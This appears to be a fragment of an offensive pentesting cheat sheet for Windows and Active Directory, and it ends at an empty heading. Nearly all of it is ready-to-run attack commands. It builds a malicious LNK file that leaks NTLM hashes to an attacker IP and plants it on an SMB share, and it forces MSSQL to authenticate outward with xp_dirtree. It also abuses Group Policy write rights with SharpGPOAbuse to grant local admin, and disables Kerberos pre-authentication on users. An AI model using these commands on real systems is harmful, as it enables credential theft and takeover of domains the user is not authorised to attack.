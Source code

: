 [https://github.com/Plazmaz/LNKUp](https://github.com/Plazmaz/LNKUp)

```bash
pip2 install -r requirements.txt; python2 generate.py --host $kali_ip --type ntlm --output click.lnk
```

```bash
smbclient //$ip/$writableshare
```

```bash
put click.lnk
```

MSSQL Exploit, if xp_dirtree doesn’t work, try other commands in

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

```bash
SQL> xp_dirtree '\\$kali_ip\blablabla'
```

### GenericWrite over Default Domain Policy? Use SharpGPOAbuse.exe

The rights can be identified in bloodhound or use the following commands to identify (PowerView.ps1) - must have GpoEditDeleteModifySecurity

```bash
Get-NetGPO
```

```bash
Get-GPPermission -Guid 31B2F340-016D-11D2-945F-00C02EB984F9 -TargetType User -TargetName $name
```

[https://github.com/byronkg/SharpGPOAbuse/releases](https://github.com/byronkg/SharpGPOAbuse/releases)

```bash
/SharpGPOAbuse.exe --AddLocalAdmin --UserAccount user --GPOName "Default Domain Policy"
```

```bash
gpupdate /force
```

```bash
python3 psexec.py user:password@$ip
```

### GenericWrite over a user? Disable Kerberos pre-auth

```python
Get-ADUser -Filter 'Name -like "Kim*"' | Set-ADAccountControl -doesnotrequirepreauth $true
```

### Server Operators Group to SYSTEM
